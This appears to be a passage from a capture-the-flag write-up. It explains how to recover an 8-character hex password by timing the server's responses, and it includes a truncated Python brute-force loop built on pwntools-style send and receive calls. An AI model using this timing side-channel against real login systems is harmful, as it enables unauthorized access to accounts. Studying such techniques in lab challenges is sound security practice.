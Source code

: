 Since we have a 90 second window to guess, we can run a brute-force by looping through every hex character and observe the response delay using this flow.

![alt text](images/initial-loop.png)

So if the observed response increased from the previous ones we find the first character. We append the character to the current guess and continue the loop 

> Continue this until we find the correct password 

![alt text](images/final-loop.png)

We can add this logic to the initial script to brute-force. The brute-force logic would look something like this:
```python
password = ""
max_time = 0.35

print("Bruteforcing...")
for _ in range(8):
    for c in "0123456789abcdef":
        # guess placeholder 
        guess = (password+c).ljust(8,"_")

        # time the response
        before = time.time()
        p.sendlineafter(b':', bytes(guess.encode()))
        recv = p.recvline()
        after = time.time()        
        print(guess, ":", recv, after-before)

        # check if response exceeds the usual time
```